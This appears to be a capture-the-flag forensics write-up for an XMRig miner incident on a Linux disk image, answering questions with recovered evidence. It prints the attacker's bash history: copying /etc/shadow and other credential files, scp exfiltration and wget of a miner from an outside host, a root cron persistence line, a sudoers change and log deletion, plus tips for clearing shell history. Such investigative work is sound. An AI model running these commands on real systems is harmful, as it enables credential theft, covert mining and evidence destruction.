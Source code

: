 # XMRig Lab
---


## XMRig Analysis

**Q1: Assigning high-level privileges to a new user is essential in the attack chain, as it enables the attacker to execute commands with administrative access, ensuring persistent control over the system.What command did the attacker use to grant elevated privileges to the newly created user?**

`testdisk Artifacts\ /disk_image.img`

`Disk Artifacts /disk_image.img > Processed > EFI GPT (base on Hint)`

![alt text](image.png)

`Advanced >  P Linux filesys. data > List`

After copy all file from img to local machine, i need to deeper analyze (Remember if you want to copy all file, you need arrow to . directory and copy)

![alt text](image-3.png)

you can receive a linux file system same the image file

![alt text](image-4.png)

> **sudo usermod -aG sudo noah**

**Q2: Understanding the commands used by the attacker to cover their traces is essential for identifying attempts to hide malicious activity on the system.What is the second command the attacker used to erase evidence from the system?**

> **sudo rm -f /var/log/auth.log**

**Q3: Identifying the configuration added or modified by the attacker for persistence is essential for detecting and removing recurring malicious activities on the system.What configuration line did the attacker add to one of the key Linux system files for scheduled tasks to ensure the miner would run continuously?**

![alt text](image-5.png)

Here is cronjob, that same with Task scheduler in Windows

But don't have anathing look like suspicious job. After a long time, I saw these log in `/var/log/syslog`:

![alt text](image-6.png)

At **crontab[2348]**, that has been edit root's cronjob of system and here is the directory: `var/spool/cron/crontabs/root`

```
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.JEFuPN/crontab installed on Mon Oct 28 15:24:38 2024)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
0 * * * * /tmp/backup.elf >/dev/null 2>&1 
```

> **0 * * * * /tmp/backup.elf >/dev/null 2>&1**

**Q4: Identifying the hash of the malicious file is crucial for confirming its uniqueness and tracking its presence across systems.What is the MD5 hash of the file dropped by the attacker with mining capabilities?**

![alt text](image-7.png)

> **d25208063842ebf39e092d55e033f9e2**

**Q5: Knowing the original name of a malicious file helps link it to known malware families and provides valuable insights into its behavior. According to threat intelligence reports, what is the miner's original name?**

![alt text](image-8.png)

> **xmr_linux_amd64 (3)**

**Q6: Understanding the command used by the attacker to download the miner is crucial for tracing how malicious files were introduced to the system. What was the successful command the attacker used to download and save the miner on the compromised Linux system?**

* Look at Question 4

> **wget http://3.28.195.43/Tools/backup/backup.elf -O /tmp/backup.elf**

**Q7: To better understand which sensitive information was accessed and transferred from the compromised system, it’s essential to identify the files exfiltrated by the attacker. What is the full path on the attacker’s remote machine where the exfiltrated passwd file was saved?**

Here is detail of /root/.bash_history
```bash
echo 'Defaults !tty_tickets' >> /etc/sudoers
cat /etc/sudoers > /tmp/sudoers.txt
cat /etc/passwd > /tmp/passwd.txt
cat /etc/shadow > /tmp/shadow.txt
cat /etc/ssh/ssh_config > /tmp/sshconfig.txt
scp /tmp/passwd.txt ubuntu@3.28.195.43:/home/ubuntu/passwd.txt
scp /tmp/sudoers.txt ubuntu@3.28.195.43:/home/ubuntu/sudoers.txt
scp /tmp/shadow.txt ubuntu@3.28.195.43:/home/ubuntu/shadow.txt
scp /tmp/sshconfig.txt ubuntu@3.28.195.43:/home/ubuntu/sshconfig.txt
wget http://3.28.239.653.28.195.43/Tools/backup/backup.elf -O /tmp/backup.elf
wget http://3.28.195.43/Tools/backup/backup.elf -O /tmp/backup.elf
chmod +x /tmp/backup.elf
crontab -e
exit 
```

> **/home/ubuntu/passwd.txt**

**Q8: Understanding how the attacker maintained elevated privileges without repeated permission prompts is essential for uncovering their methods of persistent access.What command did the attacker use to configure continuous privilege escalation without requiring repeated permission?**

Here is explain about this command for maintained elevated privileges:

![alt text](image-9.png)

> **echo 'Defaults !tty_tickets' >> /etc/sudoers**

**Q9: Identifying the source IP address used for lateral movement is crucial to trace the attacker’s path and understand the scope of the compromise.What is the IP address of the machine the attacker used to perform lateral movement to this Linux box?**

![alt text](image-10.png)

> **192.168.19.147**

**Q10: Identifying the first username targeted by the attacker in their brute-force attempts offers insight into their initial access strategy and target selection, as the attacker attempted to access two different accounts. What was the first username the attacker targeted in these brute-force attempts?**

![alt text](image-11.png)

You can see very authen from sshd and user ubuntu

Using this command to extract all information relate IP 192.168.19.147:

```bash
journalctl --file journal/4de90f86bd5a455aa73620daef50e0f4/system@26c67c3c7d5840699b51546b67acd2f3-0000000000000001-0006258a79d20247.journal | grep "192.168.19.147" > auth.log
```

![alt text](image-12.png)

Root is first user used to bruteforce

> **root**

**Q11: Identifying the time of the attacker’s final login is essential for pinpointing when they last accessed the system to conceal their activity and erase evidence. What is the timestamp of the attacker’s last login session during which they were clearing traces on the compromised machine?**

![alt text](image-13.png)

> **2024-10-28 15:35:21**

**Q12: During the attacker’s SSH session, they used a command that mistakenly saved their activities to the hard drive rather than keeping them in memory where they’d be more difficult to analyze. Which bash command did they use that left this trace?**

Base on question 7, last command is exit. 

> ❗❗ When attacker end of session with **exit** command without clear or delete **.bash_history**, it can inadvertently trigger **the saving of command history** to the hard drive

> ✅ To avoid leaving trace, some popular command used to unset or clear history like: `unset HISTFILE`, `export HISTSIZE=0` or `history -c` 

> **exit**